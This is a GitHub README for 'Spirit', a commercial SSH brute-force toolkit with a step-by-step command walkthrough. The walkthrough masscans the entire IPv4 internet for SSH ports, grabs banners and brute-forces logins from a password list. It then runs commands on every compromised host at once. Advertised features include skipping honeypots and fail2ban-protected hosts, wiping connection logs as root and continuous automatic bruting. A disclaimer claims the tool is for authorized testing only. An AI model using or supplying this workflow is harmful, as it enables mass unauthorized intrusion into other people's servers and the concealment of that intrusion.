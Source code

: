 # Spirit - Network Pentesting Tools

### [Download the latest Spirit release](https://github.com/theaog/spirit/releases)

> Check out the helpfile [`$ ./spirit --help`](./HELP) to see the whole set of tools.

## Example usage for SSH brute
```bash
# First scan your network or the internet to acquire a list of open ports.
$ masscan \
    --rate="50000" \
    --ports "22,222,2222,2212" 0.0.0.0/0 \
    --exclude 255.255.255.255 \
    -oG open.lst
Scanning 4294967295 hosts [4 ports/host]

# Parse the masscan output so that it's usable w/ spirit.
$ ./spirit parse open.lst
INFO created h.lst in HOST:PORT format

# Now test these open ports if they're running SSH by grabbing banners.
$ ./spirit banner
SSH-2.0-OpenSSH_8.2p  13% [=>                  ] [11s:1m15s]
INFO created b.lst in HOST:PORT:BANNER format

# Move the banner output for spirit to load (default h.lst).
$ mv b.lst h.lst

# Add a password list for spirit to load (default p.lst).
$ cat > p.lst << EOF
user1:pass1
user1:pass2
user2:pass50
EOF

# Start bruting...
$ ./spirit brute
INFO loaded h.lst with 26803 hosts
INFO loaded p.lst with 4881 logins
[2478/4653]root:!1qwerty [77]found [33]blocked [1284]threads 20% [====>               ] [20s:1h13m36s]
$ less -S found.lst

# Connect to all your vulnerable hosts automatically & run commands.
$ ./spirit omni -c 'whoami && uptime'
```

> Tip: you can automate these steps with `./spirit auto` or use the [`./go.sh`](./go.sh) script, if you have Pro license use `./spirit forever` for continuous automatic probing on random ports & bruting.

## Upgrade Spirit automaticaly
```bash
./spirit upgrade
Upgrading 87% [========================>     ] (5.9/5.9 MB, 49.652 MB/s)
```
>*Spirit can self-upgrade only on amd64 aka x86-64 for now. [`donate to speed things up`](#monero-xmr-thank-you)

## Spirit is Free (sorta)
For `local IP` (10/172/192) ranges and up to 1,000 `public IPs`

If you need to pen-test more than 1,000 public IP or need Pro features we charge a small fee to help us support the project development. Use `./spirit buy` to upgrade.

## Spirit Pro
Buy a Spirit Pro license directly from the CLI `./spirit buy`. Every license helps support our development and server costs. If you want to try a Pro feature, ask for a free Pro trial license by opening an [issue](https://github.com/theaog/spirit/issues).

## Key Features
- extracts SSH banners accurately (retry failed hosts) and fast (many threads)
- brute multiple ports at once: 1.1.1.1:22, 1.1.1.1:23, etc.
- brute using private keys `./spirit brute-key --file id_rsa`
- brute auto-blocks honeypots not wasting time on them
- brute also blocks hosts that are unreachable, or have fail2ban installed (less dull work, faster scanning)
- brute will try every connection twice before blocking to increase accuracy
- set your optimal concurrent threads for banner and brute `--jobs`
- very light on server load (CPU and memory)
- connect to all your hosts concurrently, upload files and execute remote commands using `./spirit omni -c 'uptime'`
- clean connection logs (if uid0) using `./spirit zap`
- masscan whole zones automatically at your own pace `./spirit masscan --zone zone.lst --rate 10_000`
- continously scan & brute your network on random ports `./spirit forever` -- spot vulnerabilities before they happen
- and more...

> check out all the spirit tools! [`$ ./spirit --help`](./HELP)

> every tool has it's own helpfile, e.g. `./spirit ms --help`

# Support the Develpoment of the Spirit toolkit!
## Monero (XMR) thank you! (our favorite)
`8ATU7h8vJWgJrGHjjG6N9aY69pUsvyFg8WRUxeGPy6jEbcZxRagsWmUN3ZrLpqDqBtHAafTLfnBzCibhvQG3trrNEdGvoTa`

![xmrqr](media/xmrqr.png)

## Bitcoin (BTC) thank you too!
`bc1q7plm79dgllrhrjz772x4vjrtvu9yy03738psy5`

## Get Help & Support
Open a Github [issue](https://github.com/theaog/spirit/issues)

Don't forget to give us a Star!

# Disclaimer

This tool should be used for authorized penetration testing and/or educational purposes only.
Any misuse of this software will not be the responsibility of the author or of any other collaborator.
Use it on your own systems and/or with the system owner's permission.

Usage of any tools in this repository for attacking targets without prior mutual consent is illegal.
It is the end user’s responsibility to obey all applicable local, state and federal laws.
We assume no liability and are not responsible for any misuse or damage caused.
